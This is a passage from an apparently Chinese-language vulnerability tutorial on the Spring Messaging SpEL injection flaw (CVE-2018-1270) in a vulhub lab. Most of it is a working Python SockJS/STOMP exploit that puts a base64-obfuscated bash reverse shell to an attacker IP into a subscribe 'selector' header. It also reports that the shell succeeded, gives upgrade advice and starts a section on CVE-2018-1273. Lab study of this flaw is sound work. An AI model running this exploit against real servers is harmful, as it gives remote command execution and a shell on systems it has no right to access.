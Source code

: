         def send(self, command, headers, body=''):  
            data = [command.upper(), '\n']  
      
            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))  
              
            data.append('\n\n')  
            data.append(body)  
            data.append('\x00')  
            data = json.dumps([''.join(data)])  
      
            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)  
            if response.status_code != 204:  
                logging.info(f"send '{command}' data error.")  
            else:  
                logging.info(f"send '{command}' data success.")  
      
        def __del__(self):  
            self.session.close()  
      
      
    sockjs = SockJS('http://192.168.173.144:8080/gs-guide-websocket')  
    sockjs.start()  
    time.sleep(1)  
      
    sockjs.send('connect', {  
        'accept-version': '1.1,1.0',  
        'heart-beat': '10000,10000'  
    })  
    sockjs.send('subscribe', {  
        'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}')",  
        'id': 'sub-0',  
        'destination': '/topic/greetings'  
    })  
      
    data = json.dumps({'name': 'vulhub'})  
    sockjs.send('send', {  
        'content-length': len(data),  
        'destination': '/app/hello'  
    }, data)  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083102.png)image-20210829220649484![](https://gitee.com/fuli009/images/raw/master/public/20210903083103.png)image-20210829220854352

成功反弹。

#### 安全防护

1.请升级Spring框架到最新版本(5.0.5、4.3.15及以上版本);

2.如果你在用 SpringBoot，请升级到最新版本(2.0.1及以上版本);

对于底层原理进行分析的文章可以参考这一篇：https://paper.seebug.org/562/

### 5.Spring Data Commons远程命令执行漏洞(CVE-2018-1273)

#### 漏洞简介
